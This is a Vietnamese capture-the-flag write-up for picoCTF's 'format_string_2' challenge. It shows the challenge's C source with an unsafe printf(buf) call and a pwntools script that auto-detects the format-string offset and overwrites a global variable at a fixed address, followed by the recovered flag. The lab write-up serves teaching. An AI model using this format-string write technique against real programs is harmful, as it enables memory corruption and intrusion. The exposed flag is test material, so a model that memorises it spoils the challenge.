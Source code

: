 # Format_string_2
Giống như các bài `format_string` trước đó, ở challenge này ta cũng có 2 file, một file binary `vuln` và file .c `vuln.c`.

Mở file `vuln.c` ra ta có source code của challenge này như sau:

``` c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

Như tên của challenge `format_string` thì ta thấy đoạn code của chương trình này có một lỗi `format_string` ở dòng:

``` c
printf(buf);
```

Nhìn xuống một xíu thì ta thấy cách để lấy flag của challenge này:

``` c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
}
```

Mục tiêu của chúng ta bây giờ sẽ là làm cho biến `sus` từ `0x21737573` thành `0x67616c66`.

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ biến `sus` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![image](https://github.com/user-attachments/assets/a609843c-f862-4a2e-99c2-eb27cca1917b)

Tìm hiểu đôi chút cùng ChatGPT, tôi đã được biết rằng trong thư viện `pwntools`, class `FmtStr` có một tính năng là tự động dò tìm offset của format-string. 

`FmtStr` sẽ tự động gửi payload thử nghiệm, dựa trên phản hồi từ server, tìm ra offset phù hợp mà ta có thể dùng để viết giá trị lên các địa chỉ mong muốn. Khi khởi tạo `FmtStr(exec_fmt)`, pwntools sẽ gọi hàm `exec_fmt` nhiều lần với các payload khác nhau để tìm offset.

Xem chi tiết hơn về chức năng này của `FmtStr` tại đây: [LINK](https://docs.pwntools.com/en/stable/fmtstr.html)

Giờ ta chỉ cần sử dụng tính năng này vào việc ghi đè địa chỉ `0x404060` (biến `sus`) với giá trị là `0x67616c66`.

Từ những phân tích trên, ta có file exploit như sau:

``` python 
from pwn import *

context.log_level = "debug"
context.binary = ELF('./vuln')
p = remote('rhea.picoctf.net', 52725)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 52725)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66}) # Ghi đè giá trị 0x67616c66 lên địa chỉ 0x404060 ( địa chỉ biến sus )

p.sendline(payload)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```

